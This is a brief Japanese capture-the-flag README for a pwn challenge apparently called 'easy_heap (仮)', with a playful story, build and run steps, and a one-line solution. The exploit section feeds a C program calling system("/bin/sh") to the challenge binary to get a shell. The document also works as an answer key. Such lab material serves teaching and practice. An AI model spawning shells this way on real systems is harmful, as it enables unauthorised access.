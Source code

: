 # easy_heap (仮)
![Genre: Pwn](https://img.shields.io/badge/genre-pwn-brightgreen?style=for-the-badge)
![Author: iwancof](https://img.shields.io/badge/author-iwancof-lightgrey?style=for-the-badge)

C言語を勉強中の「彼」はみんなが教えてくれたプログラムを実行するのが好きみたい！でも彼には秘密があって...。どうにかして秘密の flag を聞き出せないかな？

## Files
- main.c
- Makefile

## Run
```
$ make
$ ./beginners_shell
```

## exploit
```
$ ./beginners_shell
int main() {system("/bin/sh");}
```

## writeup
やるだけ



